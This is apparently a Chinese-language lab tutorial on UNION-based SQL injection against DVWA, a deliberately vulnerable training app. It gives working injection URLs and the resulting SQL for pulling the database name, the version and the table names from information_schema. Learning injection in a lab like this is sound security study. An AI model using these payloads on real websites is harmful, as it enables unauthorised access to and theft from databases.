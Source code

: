 ## 获取数据

###  获取数据库名、数据库版本

```
URL:
http://192.168.234.128/DVWA/vulnerabilities/sqli/?id=-1%27%20union%20select%20database(),version()%23&Submit=Submit#

SQL:
SELECT first_name, last_name FROM users WHERE user_id = '-1' union select database(),version()#';
```

网站回显

![](SQL联合查询注入/photo/1.jpg)

### 获取数据库中的表名

* `group_concat`

  ```
  GROUP_CONCAT(
  			[DISTINCT] expr [,expr ...]             
  			[
  			ORDER BY {unsigned_integer | col_name | expr}                 
  				[ASC | DESC] [,col_name ...]
  			]             
  			[SEPARATOR *str_val*]
  			)
  ```

  将多行数据按照指定的顺序连接成一个字符串，默认以逗号分隔。

#### 方法一：

```
URL:
http://192.168.234.128/DVWA/vulnerabilities/sqli/?id=-1%27union%20select%201,table_name%20from%20Information_schema.tables%20where%20table_schema%20=%20database()%23&Submit=Submit#
SQL:
SELECT first_name, last_name FROM users WHERE user_id = '-1'union select 1,table_name from Information_schema.tables where table_schema = database()#';
```
